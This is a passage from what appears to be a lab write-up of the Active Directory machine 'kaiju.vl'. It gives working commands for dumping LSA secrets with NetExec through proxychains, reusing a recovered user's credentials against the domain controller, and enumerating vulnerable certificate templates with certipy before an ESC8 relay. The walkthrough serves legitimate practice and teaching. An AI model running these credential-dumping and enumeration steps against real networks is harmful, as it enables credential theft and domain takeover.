 Nice ! Now open the export.xml and get the Administrator password to dump the lsa

```bash
proxychains -q nxc smb 10.10.200.182 -u 'Administrator' -p 'REDACTED' --local-auth --lsa

SMB         10.10.200.182   445    BERSRV200        kaiju.vl\sasrv200:REDACTED
SMB         10.10.200.182   445    BERSRV200        kaiju.vl\clare.frost:REDACTED
```
Clare.Frost is a valid user on the DC

```bash
proxychains -q nxc ldap 10.10.200.181 -u 'clare.frost' -p 'REDACTED'
SMB         10.10.200.181   445    BERSRV100        [*] Windows Server 2022 Build 20348 x64 (name:BERSRV100) (domain:kaiju.vl) (signing:True) (SMBv1:False)
LDAP        10.10.200.181   389    BERSRV100        [+] kaiju.vl\clare.frost:REDACTED
```

# StreamDivert + ESC8

Now if we do some ADCS enumeration like this 

```bash
proxychains -q certipy find -u 'clare.frost'@'BERSRV100.kaiju.vl' -p 'REDACTED' -dc-ip '10.10.200.181' -vulnerable -stdout -debug
```
We can found this :

![alt text](<../assets/image_kaiju/9er adcs find.png>)
